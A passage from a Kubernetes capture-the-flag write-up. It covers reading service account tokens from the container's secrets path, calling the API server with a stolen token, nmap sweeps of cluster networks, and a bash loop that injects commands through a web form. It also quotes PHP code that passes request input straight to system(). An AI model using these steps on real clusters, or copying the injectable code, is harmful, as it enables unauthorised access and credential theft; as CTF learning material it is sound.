<missing>           2 days ago          /bin/sh -c #(nop) COPY dir:54b0c4edce2b6cb34…   162B
<missing>           2 days ago          |1 GHA_EASTER_EGG=WHOOO-A-SECRET-GITHUB-ACTI…   0B
<missing>           2 days ago          |1 GHA_EASTER_EGG=WHOOO-A-SECRET-GITHUB-ACTI…   42B
<missing>           2 days ago          /bin/sh -c #(nop)  ARG GHA_EASTER_EGG=DEFAUL…   0B
<missing>           2 days ago          /bin/sh -c apt-get update && apt-get install…   105MB
<missing>           4 months ago        /bin/sh -c #(nop)  CMD ["apache2-foreground"]   0B
<missing>           4 months ago        /bin/sh -c #(nop)  EXPOSE 80                    0B
<missing>           4 months ago        /bin/sh -c #(nop) WORKDIR /var/www/html         0B
<missing>           4 months ago        /bin/sh -c #(nop) COPY file:e3123fcb6566efa9…   1.35kB
<missing>           4 months ago        /bin/sh -c #(nop)  STOPSIGNAL SIGWINCH          0B
<missing>           4 months ago        /bin/sh -c #(nop)  ENTRYPOINT ["docker-php-e…   0B
<missing>           4 months ago        /bin/sh -c { echo '#!/bin/sh'; echo 'exec pk…   41B
<missing>           4 months ago        /bin/sh -c #(nop) COPY multi:99e4ad617c61938…   6.51kB
<missing>           4 months ago        /bin/sh -c set -eux;   savedAptMark="$(apt-m…   45.5MB
<missing>           4 months ago        /bin/sh -c #(nop) COPY file:ce57c04b70896f77…   587B
<missing>           4 months ago        /bin/sh -c set -eux;   savedAptMark="$(apt-m…   13.6MB
<missing>           4 months ago        /bin/sh -c #(nop)  ENV PHP_SHA256=bd7c0a9bd5…   0B
<missing>           4 months ago        /bin/sh -c #(nop)  ENV PHP_URL=https://www.p…   0B
<missing>           4 months ago        /bin/sh -c #(nop)  ENV PHP_VERSION=7.1.33       0B
<missing>           4 months ago        /bin/sh -c #(nop)  ENV GPG_KEYS=A917B1ECDA84…   0B
<missing>           4 months ago        /bin/sh -c #(nop)  ENV PHP_LDFLAGS=-Wl,-O1 -…   0B
<missing>           4 months ago        /bin/sh -c #(nop)  ENV PHP_CPPFLAGS=-fstack-…   0B
<missing>           4 months ago        /bin/sh -c #(nop)  ENV PHP_CFLAGS=-fstack-pr…   0B
<missing>           4 months ago        /bin/sh -c #(nop)  ENV PHP_EXTRA_CONFIGURE_A…   0B
<missing>           4 months ago        /bin/sh -c #(nop)  ENV PHP_EXTRA_BUILD_DEPS=…   0B
<missing>           4 months ago        /bin/sh -c {   echo '<FilesMatch \.php$>';  …   237B
<missing>           4 months ago        /bin/sh -c a2dismod mpm_event && a2enmod mpm…   68B
<missing>           4 months ago        /bin/sh -c set -eux;  apt-get update;  apt-g…   45.9MB
<missing>           4 months ago        /bin/sh -c #(nop)  ENV APACHE_ENVVARS=/etc/a…   0B
<missing>           4 months ago        /bin/sh -c #(nop)  ENV APACHE_CONFDIR=/etc/a…   0B
<missing>           4 months ago        /bin/sh -c set -eux;  mkdir -p "$PHP_INI_DIR…   0B
<missing>           4 months ago        /bin/sh -c #(nop)  ENV PHP_INI_DIR=/usr/loca…   0B
<missing>           4 months ago        /bin/sh -c set -eux;  apt-get update;  apt-g…   227MB
<missing>           4 months ago        /bin/sh -c #(nop)  ENV PHPIZE_DEPS=autoconf …   0B
<missing>           4 months ago        /bin/sh -c set -eux;  {   echo 'Package: php…   46B
<missing>           4 months ago        /bin/sh -c #(nop)  CMD ["bash"]                 0B
<missing>           4 months ago        /bin/sh -c #(nop) ADD file:bc8179c87c8dbb3d9…   69.2MB
```

I viewed the entire contents by adding the `--no-trunc` flag, which displayed the ninth and final egg! **WHOOO-A-SECRET-GITHUB-ACTION-BUILDARG-EGG**

<div style="page-break-after: always; break-after: page;"></div>

## Experiments

### default ServiceAccount in foo namespace

I tested the serviceaccount used to run the ssh pod by first getting the token

```bash
ssh -p 6667 \
    -qi /run/secrets/kubernetes.io/ssh/private_key \
    user@ssh.foo.svc.cluster.local \
    cat /run/secrets/kubernetes.io/serviceaccount/token
```

and then using it from entry to check the name and permissions of the serviceaccount from entry, where kubectl is installed. For clarity, assume that TOKEN is set to the token from the previous command.

```bash
kubectl get pods --token $TOKEN
```

```shell
Error from server (Forbidden): pods is forbidden: User "system:serviceaccount:foo:default" cannot list resource "pods" in API group "" in the namespace "foo"
```

Showing the that this is the default user in the foo namespace. Listing its permissions shows nothing that I don't already have with the egg-thief serviceaccount.

```bash
kubectl auth can-i --list -n foo --token $TOKEN
```

```shell
Resources                                       Non-Resource URLs   Resource Names     Verbs
selfsubjectaccessreviews.authorization.k8s.io   []                  []                 [create]
selfsubjectrulesreviews.authorization.k8s.io    []                  []                 [create]
                                                [/api/*]            []                 [get]
                                                [/api]              []                 [get]
                                                [/apis/*]           []                 [get]
                                                [/apis]             []                 [get]
                                                [/healthz]          []                 [get]
                                                [/healthz]          []                 [get]
                                                [/openapi/*]        []                 [get]
                                                [/openapi]          []                 [get]
                                                [/version/]         []                 [get]
                                                [/version/]         []                 [get]
                                                [/version]          []                 [get]
                                                [/version]          []                 [get]
podsecuritypolicies.policy                      []                  [eks.privileged]   [use]
```

### nmap the API Server

After reading some articles online about how to commonly attack Kubernetes, I decided to check for common Kubernetes ports as suggested by [https://github.com/calinah/learn-by-hacking-kccn/blob/master/k8s_cheatsheet.md](https://github.com/calinah/learn-by-hacking-kccn/blob/master/k8s_cheatsheet.md):

```bash
nmap -p 443,2379,4194,6443,8443,8080,9090,9099,10250,10255,10256 10.100.0.1
```

```shell
PORT     STATE    SERVICE
443/tcp   open     https
2379/tcp  filtered etcd-client
4194/tcp  filtered unknown
6443/tcp  filtered sun-sr-https
8080/tcp  filtered http-proxy
8443/tcp  filtered https-alt
9090/tcp  filtered zeus-admin
9099/tcp  filtered unknown
10250/tcp filtered unknown
10255/tcp filtered unknown
10256/tcp filtered unknown
```

I additionally added 9090 which is Prometheus' default, but all that I really learned is that the API server is running on port 443 and did some experiments curling the API server. For example, I learned how to do the equivalent of `kubectl get secrets -n foo` with curl using the ServiceAccount token of egg-thief that exists in the entry container:

```bash
curl -sk -X GET https://10.100.0.1:443/api/v1/namespaces/foo/secrets \
     --header "Authorization: Bearer `cat /run/secrets/kubernetes.io/serviceaccount/token`"
```

The exact same RBAC applies though, so no information relevant to the CTF was really gained other than this cluster isn't exposing extra information that it shouldn't be.

### nmap Pod CIDR on port 80

We can see that we're coming from 192.168.49.105 (entry) from port 53752 and coming into 192.168.94.0 (ssh) on port 6667 - from this we can guess the Pod CIDR: `192.168.0.0/16`! These IP addresses aren't stable by any means, but we can nmap this subnet in an attempt to find joker.

We know joker's running on port 80, but so do entry and egg. Unfortunately this command times out `nmap -p 80 192.168.0.0/16`. As a workaround, I ran this bash script locally (it took 71 minutes)!

```bash
#!/bin/bash
for i in {1..255}
do
  nmap=`curl -s http://k8s-ctf.rocks/?fcommand=nmap+-T5+-Pn+-p+80+192.168.$i.1-255`
  printf "%s" "$nmap" >> test.txt
done
```

I learned some things, but not what I was hoping to learn! I should have carefully read the documentation on [Network Policies](https://kubernetes.io/docs/concepts/services-networking/network-policies/) first because this method does not bypass an existing Network Policy - traffic is still blocked.
>By default, pods are non-isolated; they accept traffic from any source.
>Pods become isolated by having a NetworkPolicy that selects them. Once there is any NetworkPolicy in a namespace selecting a particular pod, that pod will reject any connections that are not allowed by any NetworkPolicy.

But I got two interesting things out of it:

```shell
Nmap scan report for 192-168-71-233.traefik.traefik.svc.cluster.local (192.168.71.233)
Host is up (0.0012s latency).

PORT   STATE SERVICE
80/tcp open  http
```

```shell
Nmap scan report for ip-192-168-51-61.eu-central-1.compute.internal (192.168.51.61)
Host is up (0.00093s latency).

PORT   STATE SERVICE
80/tcp open  http
```

Unfortunately, running `kubectl auth can-i --list -n traefik` shows that we have essentially no permissions in that namespace, but at least I found the Ingress Controller? We also found the IP of the cluster node, `192.168.71.233`.

### Look for NodePorts on K8s Node

We can run a scan on the default NodePort range (30000 - 32767) to see if that exposes any services. I split it up so it would complete:

```shell
nmap -T5 -Pn -p 30000-30499 192.168.51.61
nmap -T5 -Pn -p 30500-30999 192.168.51.61
nmap -T5 -Pn -p 31000-31499 192.168.51.61
nmap -T5 -Pn -p 31500-31999 192.168.51.61
nmap -T5 -Pn -p 32000-32767 192.168.51.61
```

...but I didn't find anything. It seems like the only open ports are 80/443.
>After reading more, this should be expected because there's an Ingress Controller, so likely no NodePort services. No harm checking, though!

### Investigate Calico CNI

I was curious which ports were exposed on the calico-typha container so I ran `nmap 192.168.40.105`, which is the what I found `calico-typha.kube-system.svc.cluster.local` pointed to earlier.

```shell
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-11 17:44 UTC
Nmap scan report for 192-168-40-105.calico-typha.kube-system.svc.cluster.local (192.168.40.105)
Host is up (0.0027s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
111/tcp  open  rpcbind
9091/tcp open  xmltec-xmlmail

Nmap done: 1 IP address (1 host up) scanned in 0.73 seconds
```

I tried to ssh in with the keys in the entry container, but no no avail.

### How does the PHP app work?

The relevant portion of `index.php` in the entry container is:

```php
<?php
  if(isset($_GET['fcommand']) && $_GET['fcommand'] != "") {
?>
    <div class="row">
      <h2 class="col-12">Output</h2>
    </div>
    <div class="row">
      <div class="col-12">
        <pre class="alert alert-info">
<?php
  system($_GET['fcommand'] . " 2>&1");
?>
        </pre>
      </div>
    </div>
<?php
  }
?>
```

where I can see that it's literally just passing in the command from the form into the container.

<div style="page-break-after: always; break-after: page;"></div>

## Architecture



## Stuff I learned

- The ServiceAccount's token is stored in containers at `/run/secrets/kubernetes.io/serviceaccount/token`
- You can list all given RBAC permissions in a namespace with `kubectl auth can-i --list --namespace=foo`
- You can pass ServiceAccount tokens to kubectl commands with the `--token` flag
- Even if you RBAC correctly it's extremely easy from inside a running container to run `env`, guess the Pod CIDR, and `nmap -sL` that range to enumerate by resolving services via DNS reverse lookups, which gives information about namespaces as well.
- Be more thorough when enumerating and consider all possibilities before going down any one path

## Acknowledgements

- [@NodyTweet](https://twitter.com/NodyTweet) for putting this CTF together
- [/u/meatbox](https://www.reddit.com/user/meatbox) for the mentoring
